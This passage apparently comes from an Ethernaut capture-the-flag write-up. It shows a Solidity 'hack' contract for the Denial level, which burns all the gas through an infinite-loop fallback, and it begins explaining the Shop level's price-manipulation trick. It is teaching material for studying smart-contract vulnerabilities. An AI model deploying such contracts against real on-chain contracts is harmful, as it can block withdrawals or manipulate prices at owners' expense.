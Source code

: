 ```solidity
contract hack {
    constructor (Denial target) {
        target.setWithdrawPartner(address(this));
    }

    fallback () external payable {
        while (true) {}
    }
}
```

Once we deploy the hack contract and submit the instance, ethernaut will try to withdraw ether from the contract, and since the partner variable stores the address of the hack contract, the infinite loop will be triggered as explained above consuming all of the gas, hence denying the owner from completing the transaction.

___
## Level 21 [Shop]

This idea behind this level is similar to level 11 [Elevator].

```solidity
interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

The goal is to set the value of the price variable to a number less than 100. And, looking at the `buy()` function, our first idea would be to implement the same logic that we did for Level 11, i.e., we create a function `price()` and a variable count, and we update the value of count in every call of the function, so that, when the function is called the 2nd time, we can return a different value than what we did for the first call. However, there is a minor problem. In the interface declared in the challenge contract, the function `price()` is defined as `view` which means we can't make any changes to state variables. So, if a variable count is declared, there will be a conflict here, hence this logic can't be implemented. But, notice the `isSold` variable. It's value changes after the first call to the `price()` function, hence this variable can be used to perform the checks based on which we can decide the output of the `price()` function.

